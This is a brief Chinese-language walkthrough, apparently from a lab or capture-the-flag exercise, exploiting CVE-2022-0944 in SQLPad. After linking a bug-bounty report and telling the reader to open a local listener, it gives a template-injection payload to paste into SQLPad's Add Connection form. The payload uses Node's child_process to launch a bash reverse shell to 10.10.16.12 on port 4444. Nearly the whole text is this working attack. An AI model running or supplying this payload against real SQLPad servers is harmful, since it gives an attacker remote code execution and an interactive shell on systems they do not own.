 ## CVE-2022-0944

```
https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
```

本地进行监听：

![截图](08f39cbb61358480af170eaeb0bcd1d9.png)

SQLPAD上执行如下操作:单击 Connections 和 Add Connection.

```
{{ process.mainModule.require('child_process').exec('(/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.12/4444 0>&1" &)') }}
```
